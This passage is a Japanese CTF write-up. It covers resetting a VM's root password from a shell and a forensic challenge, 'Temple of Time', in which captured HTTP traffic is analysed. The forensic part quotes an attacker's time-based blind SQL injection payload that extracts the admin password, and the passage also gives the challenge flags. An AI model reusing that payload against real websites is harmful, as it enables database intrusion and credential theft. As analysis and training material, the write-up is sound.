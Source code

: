 シェルに入ったらrootパスワードをリセットする
```
/dev/sda1: recovering journal
/dev/sda1: clean, 60521/655360 files, 577830/2620928 blocks
/bin/sh: 0: can't access tty; job control turned off
# 
# passwd
Enter new UNIX password: **新しいパスワード**
Retype new UNIX password: **新しいパスワード**
passwd: password updated successfully
```

rootでログインできるようになったら冒頭のコマンドを実行する.
```
# dmesg | grep KosenCTF
[   1.708763] KosenCTF{u_c4n_r3s3t_r00t_p4ssw0rd_1n_VM}
```

## Temple of Time

Webサイトに対する攻撃ログを分析して管理者情報が盗まれたか調べる問題.
分析対象としてHTTPのパケットが与えられる.

攻撃者はlogin.phpにtaroアカウントでログインしている.
その後index.phpに以下のようなクエリを大量に投げている.
```
http://147.192.122.109/index.php?portal=%27OR%28SELECT%28IF%28ORD%28SUBSTR%28%28SELECT+password+FROM+Users+WHERE+username%3D%27admin%27%29%2C1%2C1%29%29%3D48%2CSLEEP%281%29%2C%27%27%29%29%29%23
```

URLデコードするとTime-based SQLiしている事が分かる.
```
portal='OR(SELECT(IF(ORD(SUBSTR((SELECT password FROM Users WHERE username='admin'),1,1))=48,SLEEP(1),'')))#
```

成功するとSLEEP(1)が有効になるのでHTTPレスポンスが戻ってくるのに時間がかかる.
したがってWiresharkのフィルタでHTTPのRTTが1.0sec以上のものを抽出すれば良い.
```
http.time > 1
```

抽出したパケットの中から `ORD(SUBSTR((SELECT password FROM Users WHERE username='admin'),1,1))=x` に於けるxを時系列に並べると以下の通り.
```
75, 111, 115, 101, 110, 67, 84, 70, 123, 116, 49, 109, 51, 95, 98, 52, 115, 51, 100, 95, 52, 116, 116, 52, 99, 107, 95, 118, 51, 49, 108, 115, 95, 49, 116, 125
```

これをデコードすればフラグが手に入る.
```
KosenCTF{t1m3_b4s3d_4tt4ck_v31ls_1t}
```

## basic crackme
